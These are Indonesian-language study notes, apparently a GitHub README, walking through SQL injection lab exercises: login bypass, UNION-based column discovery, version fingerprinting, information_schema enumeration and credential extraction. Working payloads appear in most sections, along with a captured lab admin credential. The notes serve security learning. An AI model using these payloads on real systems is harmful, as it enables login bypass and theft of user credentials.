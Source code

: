 ## 1. Basic SQL Injection

### Query Given:
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

### End Goal:
Menampilkan semua produk, baik yang telah dirilis maupun yang belum.

### Fuzzing dengan Payload Manual:
```sql
SELECT * FROM products WHERE category = 'Pets' AND released = 1;
SELECT * FROM products WHERE category = ''' AND released = 1;
SELECT * FROM products WHERE category = ''--' AND released = 1;
SELECT * FROM products WHERE category = '';
SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1;
```

### Library Python yang Digunakan:
- `requests`
- `sys` (untuk mengambil argumen dari CLI)

---

## 2. Vulnerability Allowing Login Bypass

### Asumsi Query SQL untuk Autentikasi:
```sql
SELECT * FROM USERS WHERE username = "input" AND password == "input"
```

### Fuzzing Hingga Query Berubah:
```sql
SELECT * FROM USERS WHERE username = "' OR 1=1 -- " AND password == "input"
```

### Library Python yang Digunakan:
- `BeautifulSoup` (untuk mendapatkan CSRF token dari HTML)

---

## 3. SQLi UNION Attack: Menentukan Jumlah Kolom & Menemukan Kolom Tipe Teks

### End Goal:
Menentukan jumlah kolom yang dikembalikan oleh query.

### Contoh UNION Query:
```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2;
```

### Rules:
- Jumlah dan urutan kolom harus sama.
- Tipe data harus kompatibel.

### Menentukan Jumlah Kolom:
```sql
SELECT ? FROM table1 UNION SELECT NULL, NULL;  -- error (jumlah kolom salah)
SELECT ? FROM table1 UNION SELECT NULL, NULL, NULL;  -- sukses (jumlah kolom benar)
```

### Menentukan Tipe Data Kolom:
```sql
SELECT a, b, c FROM table1 UNION SELECT NULL, NULL, 'a';
```
Jika tidak ada error, berarti kolom `c` bertipe string.

---

## 4. UNION Attack: Mengambil Data dari Tabel Lain

### End Goal:
Menampilkan username dan password dari tabel `users` dan login sebagai administrator.

### Langkah-Langkah:
1. Menentukan jumlah kolom:
   ```sql
   ' ORDER BY 1--
   ' ORDER BY 2--
   ' ORDER BY 3-- (error)
   ```
   → Jumlah kolom = 2

2. Menentukan tipe data kolom:
   ```sql
   ' UNION SELECT NULL, 'a'--
   ' UNION SELECT 'a', 'a'-- (error)
   ```
   → Salah satu kolom bertipe string.

3. Payload untuk mendapatkan kredensial:
   ```sql
   ' UNION SELECT NULL, username || '~' || password FROM users--
   ```
   **Output:** `administrator~zow0ture2abq8dc3062m`

---

## 5. SQL Injection: Mengetahui Tipe dan Versi Database (MySQL & Microsoft SQL)

### Langkah-Langkah:
4. Intercept request menggunakan **Burp Suite**.
5. Menentukan jumlah dan tipe data kolom:
   ```sql
   '+UNION+SELECT+'abc','def'#
   ```
6. Menampilkan versi database:
   ```sql
   '+UNION+SELECT+@@version,+NULL#
   ```

---

## 6. SQL Injection: Menampilkan Isi Database pada Non-Oracle

### Langkah-Langkah:
7. Intercept request menggunakan **Burp Suite**.
8. Menentukan jumlah dan tipe data kolom:
   ```sql
   '+UNION+SELECT+'abc','def'--
   ```
9. Menampilkan daftar tabel dalam database:
   ```sql
   '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
   ```
10. Menentukan tabel yang menyimpan kredensial pengguna.
11. Menampilkan daftar kolom dalam tabel pengguna:
   ```sql
   '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
   ```
12. Menemukan nama kolom untuk username dan password.
13. Mendapatkan kredensial pengguna:
   ```sql
   '+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
   ```
14. Menemukan password admin dan menggunakannya untuk login.

---

## 7. Blind SQL Injection

**(Belum ada detail, bisa dikembangkan lebih lanjut)**


users_aeycka